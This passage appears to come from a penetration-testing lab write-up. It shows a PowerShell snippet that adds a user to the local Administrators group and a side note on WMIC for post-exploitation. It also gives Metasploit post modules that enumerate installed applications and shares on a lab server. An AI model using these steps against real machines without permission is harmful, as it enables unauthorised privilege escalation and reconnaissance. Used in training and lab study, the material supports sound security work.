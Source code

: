 ```powershell

# Adding the user to the Administrators group using net localgroup
$addToGroup = net localgroup Administrators $username /add
if ($LASTEXITCODE -eq 0) {
    Write-Host "User $username added to Administrators group successfully."
} else {
    Write-Host "Failed to add $username to Administrators group."
}

```

> Side note on WMIC: 
>> WMIC stands for Windows Management Instrumentation Command Line. When an Attacker gains a command on a Remote PC, then they can enumerate a huge amount of information and mae effective changes using the WMI Command Line, You may wish to have a breif look at it 

[WMIC Tutorial](https://www.hackingarticles.in/post-exploitation-using-wmic-system-command/)
[[WMIC Cheatsheet]]

### 8.6 enum_applications

In one of our first stages of hacking, we were enumerating each of the machines, like mapping out drives and finding admin accounts and passwords is user descriptions. 

Now lets get to it by running 
```bash
run post/windows/gather/enum_application
```

![](attachment/0491092984d3cd983f565b6fc9b68ebe.png)
> Figure 7 | Installed Application on server1 : 192.168.10.1

### 8.7 enum_shares

As another example of the enumeration modules, enumerate the shares using the following command: - 

```bash
run post/windows/gather/enum_shares
```
